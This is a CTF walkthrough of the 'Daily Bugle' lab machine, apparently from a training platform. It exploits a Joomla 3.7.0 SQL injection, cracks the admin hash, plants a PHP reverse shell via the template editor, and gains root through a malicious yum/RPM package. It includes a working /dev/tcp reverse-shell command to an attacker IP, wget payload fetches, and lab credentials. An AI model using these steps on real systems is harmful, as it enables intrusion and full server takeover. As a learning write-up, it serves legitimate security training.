








daily bugle
Daily Buglenmap shows 22,80,3306 open
22 - SSH
80 - Web server
3306 - MariaDB
We browse throught the news webserver. We find the
/administrator directory through
gobuster.
However, we do not have any credentials.
We check wappalyzer to confirm joomla running on the webserver.
To get the version use the following Link/Command.
https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website
For our case:
http://10.10.42.252/administrator/manifests/files/joomla.xmlWe get the version as 3.7.0
searchsploit 3.7.0We get the file by:
searchsploit -m php/webapps/42033.txtUpon reading the file. It says to use sqlmap to exploit the vulnerability. However, sqlmap didn't find any intresting stuff.
Upon searching google for “Joomla 3.7.0 Python exploit”
We find the following code:
https://github.com/XiphosResearch/exploits.gitIn the git link, go to
Joomblah directory and use the
joomblah.py file
Now, we need to crack the hash using john.
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash_joomla
john hash_joomla --wordlist=/usr/share/wordlists/rockyou.txtNow, we have a username and password.
Username : jonah
Password : spiderman123
We use this login credentials at
http://10.10.42.252/administrator page to login into joomla control panel as super user.
To get a shell from here on there are multiple options. (***Check research***)
We will use the templates section.
Go to
Extensions -→ Templates -→ TemplatesThen click on
Beez3 Details and FilesNow, open the
index.php and replace a
php-reverse-shell code in that place.
Run a
listner in attacker machine.
Then to exploit the malicious php file click on
“Template Preview”Now we will have gained a shell in our attacker machine.
Privelege EscalationNext we check for ways to elevate our privelege.
sudo -l - Nothhing
/etc/crontab - Nothing
suid files - Nothing
We then browse the web server folder and find a file called “
configuration.php”
/var/www/html/configuration.phpWe find a password:
Upon enumeration we that the password is user password for
jjameson.
Username : jjameson
Password : nv5uz9r3ZEDzVjNu
we can now ssh to the machine as
jjameson and get the
user flag.
Then we do
sudo -lWe find yum is running in sudo.
Thus we use
GTFObins to use this for privelege escalation.
Note: We will create a malicious rpm file which will execute code upon installation.
Tool used: fpm
(gem install fpm)
Commands in Attacker Machine:TF=$(mktemp -d)
echo 'id' > TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
Note: This will run the ‘
id’ command upon installation.
We can tweak this to run a reverse shell.
TF=$(mktemp -d)
echo '/bin/sh -i >& /dev/tcp/10.11.72.31/8888 0>&1' > $TF/y.sh
fpm -n y -s dir -t rpm -a all --before-install $TF/y.sh $TF
Host these files in a python web server.
And start a netcat listener.
Commands in Target Machine(ssh session of jjameson):wget http://10.11.72.31/x-1.0-1.noarch.rpm
wget http://10.11.72.31/y-1.0-1.noarch.rpmThen we run the following to install the malicious rpm and run our commands.
sudo yum localinstall -y x-1.0-1.noarch.rpmThis will run the ‘id’ command upon installation.
sudo yum localinstall -y y-1.0-1.noarch.rpmThis will run a reverse shell as root/
Note: To remove the installation.( Say to run again)
sudo yum remove x-1.0-1or
sudo yum remove y-1.0-1Now in the root shell get the root flag
Thanks!!